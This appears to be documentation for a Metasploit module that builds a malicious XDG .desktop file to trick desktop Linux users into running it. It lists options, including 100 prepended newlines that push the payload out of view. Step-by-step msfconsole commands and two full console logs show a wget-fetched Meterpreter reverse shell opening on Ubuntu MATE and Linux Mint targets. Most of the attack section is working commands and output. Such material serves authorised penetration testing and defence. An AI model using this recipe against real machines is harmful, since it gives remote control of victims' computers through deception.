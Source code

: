## Vulnerable Application

This module creates a malicious XDG Desktop (.desktop) file.

On most modern systems, desktop files are not trusted by default.
The user will receive a warning prompt that the file is not trusted
when running the file, but may choose to run the file anyway.

The default file manager applications in some desktop environments
may impose more strict execution requirements by prompting the user
to set the file as executable and/or marking the file as trusted
before the file can be executed.


## Options

### FILENAME

The desktop file name. (Default: `msf.desktop`)

### APPLICATION_NAME

The application name. Some file managers will display this name instead of the file name. (Default: random)


## Advanced Options

### PrependNewLines

Prepend new lines before the payload. (Default: `100`)


## Verification Steps

On the Metasploit host:

1. Start msfconsole
1. Do: `use exploit/multi/fileformat/xdg_desktop`
1. Do: `set filename [filename.desktop]`
1. Do: `set payload [payload]`
1. Do: `set lhost [lhost]`
1. Do: `set lport [lport]`
1. Do: `run`
1. Do: `handler -p [payload] -P [lport] -H [lhost]`

On the target machine:

1. Open the `msf.desktop` file
1. If prompted, choose "Launch Anyway"


## Scenarios

### Ubuntu MATE 24.04.2 (x86_64)

```
msf > use exploit/multi/fileformat/xdg_desktop
[*] No payload configured, defaulting to cmd/linux/http/aarch64/meterpreter/reverse_tcp
msf exploit(multi/fileformat/xdg_desktop) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/fileformat/xdg_desktop) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf exploit(multi/fileformat/xdg_desktop) > set lport 4444
lport => 4444
msf exploit(multi/fileformat/xdg_desktop) > set FETCH_COMMAND wget
FETCH_COMMAND => WGET
msf exploit(multi/fileformat/xdg_desktop) > run
[+] msf.desktop stored at /root/.msf4/local/msf.desktop
msf exploit(multi/fileformat/xdg_desktop) > handler -p cmd/linux/http/x64/meterpreter/reverse_tcp -P 4444 -H 192.168.200.130
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 192.168.200.130:4444 
msf exploit(multi/fileformat/xdg_desktop) > 
[*] Sending stage (3090404 bytes) to 192.168.200.193
[*] Meterpreter session 1 opened (192.168.200.130:4444 -> 192.168.200.193:52462) at 2025-07-29 03:29:10 -0400

msf exploit(multi/fileformat/xdg_desktop) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : linuxmint-mate-24-04.2-desktop-amd64
OS           : Ubuntu 24.04 (Linux 6.14.0-24-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Linux Mint 22.1 (MATE) (x86_64)

```
msf > use exploit/multi/fileformat/xdg_desktop 
[*] No payload configured, defaulting to cmd/linux/http/aarch64/meterpreter/reverse_tcp
msf exploit(multi/fileformat/xdg_desktop) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp 
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/fileformat/xdg_desktop) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf exploit(multi/fileformat/xdg_desktop) > set lport 4444
lport => 4444
msf exploit(multi/fileformat/xdg_desktop) > set FETCH_COMMAND wget
FETCH_COMMAND => WGET
msf exploit(multi/fileformat/xdg_desktop) > run
[+] msf.desktop stored at /root/.msf4/local/msf.desktop
msf exploit(multi/fileformat/xdg_desktop) > handler -p cmd/linux/http/x64/meterpreter/reverse_tcp -P 4444 -H 192.168.200.130
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 192.168.200.130:4444 
msf exploit(multi/fileformat/xdg_desktop) > 
[*] Sending stage (3090404 bytes) to 192.168.200.189
[*] Meterpreter session 1 opened (192.168.200.130:4444 -> 192.168.200.189:35162) at 2025-07-29 02:45:34 -0400

msf exploit(multi/fileformat/xdg_desktop) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer     : 192.168.200.189
OS           : LinuxMint 22.1 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
